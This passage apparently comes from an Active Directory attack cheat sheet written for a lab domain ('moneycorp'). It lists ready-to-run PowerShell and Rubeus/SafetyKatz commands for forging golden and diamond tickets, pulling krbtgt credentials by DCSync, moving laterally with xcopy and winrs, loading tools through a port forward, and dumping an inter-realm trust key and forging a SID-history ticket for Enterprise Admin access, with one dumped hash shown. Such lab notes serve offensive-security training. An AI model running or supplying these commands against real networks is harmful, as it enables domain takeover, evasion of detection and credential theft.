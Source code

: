 {% code overflow="wrap" %}
```powershell
# GT attack using the machine account using SafetyKatz
Loader.exe -path SafetyKatz.exe -args "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:<currentDomainSID> /sids:<rootDomainSID>-516,s-1-5-9 /krbtgt:<krbtgt-rc4> /ptt" "exit"

# GT attack using the machine account using Rubeus
Loader.exe -path Rubeus.exe -args golden /aes256:<krbtgt-aes256key> /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:<currentDomainSID> /sids:<rootDomainSID>-516,s-1-5-9 /dc:dcorp-dc.dollarcorp.moneycorp.local /ptt

# Peform a DCSync to extract the forest root's krbtgt credentials
Loader.exe -path SafetyKatz.exe -args "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}

For even better OPSEC, Diamond Tickets instead of GT. These resemble legitimate Kerberos requests and include a corresponding TGT request, making them less suspicious:

{% code overflow="wrap" %}
```powershell
# Diamond Ticket (most OPSEC-friendly)
Loader.exe -path Rubeus.exe -args diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:<rootDomainSID>-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}

{% tab title="Trust Key (XDomain)" %}
Forge an inter-realm TGT (DA  → EA on a specific service):

{% code overflow="wrap" %}
```powershell
# Start a process as the LA of the target host
Loader.exe -path Rubeus.exe -args asktgt /user:<LA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Copy loader to the target
echo F | xcopy Loader.exe \\dcorp-dc\c$\users\public\loader.exe

# Connect to the target host
winrs -r:dcorp-dc cmd

# Create a port forward
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=172.16.100.37 connectport=80

# Dump the trust key
> c:\users\public\loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-719815819-3726368948-3917688648)

Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-335606122-960912869-3279953914)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
* rc4_hmac_nt       7f03e840ef582d4bfb9d5866efb570c5

# Forge a ticket with SID History of EAs (as student337 on dcorp-std337)
Loader.exe -path Rubeus.exe -args evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<trust-key> /sid:<currentDomainSID> /sids:<rootDomainSID>-519 /ldap /user:administrator /nowrap

# Impersonate EA using the generated ticket
```